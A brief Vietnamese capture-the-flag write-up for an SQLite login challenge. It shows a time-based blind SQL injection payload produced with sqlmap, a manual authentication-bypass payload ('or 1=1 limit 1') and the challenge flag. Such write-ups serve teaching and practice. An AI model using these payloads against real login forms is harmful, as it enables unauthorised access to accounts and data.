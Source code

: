 ![image-20200608011614283](images/image-20200608011614283.png)

Time-based Blind

Title: SQLite > 2.0

Do không có thời gian viết code bài này nên mình dùng luôn sqlmap :))

Payload: **user=admin' OR 9766=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))-- FdpX&pass=admin**

![image-20200608011853129](images/image-20200608011853129.png)

Cách 2: Không sử dụng sqlmap

Thử payload **' or 1=1—** có xuất hiện thông báo cố gắng đăng nhập với nhiều hơn 1 người dùng, ta thêm limit vào truy vấn để lấy thêm 1 bản ghi là ok

![image-20200608212038543](images/image-20200608212038543.png)

Payload: **user' or 1=1 limit 1—&pass=**



Flag: **ractf{Y0u_B3tt3r_N0t_h4v3_us3d_sqlm4p}**

